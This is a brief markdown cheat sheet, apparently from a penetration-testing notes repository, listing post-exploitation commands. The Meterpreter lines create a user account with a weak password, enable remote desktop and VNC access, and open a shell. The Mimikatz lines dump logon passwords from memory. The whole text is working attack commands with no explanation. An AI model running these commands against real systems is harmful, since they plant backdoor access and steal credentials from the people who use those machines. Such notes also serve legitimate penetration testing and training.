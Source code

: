 ## Meterpreter Mimikatz

Meterpreter:

run getgui -u admin -p 1234
run vnc -p 5043

shell

Mimikatz:

privilege::debug
sekurlsa::logonPasswords full



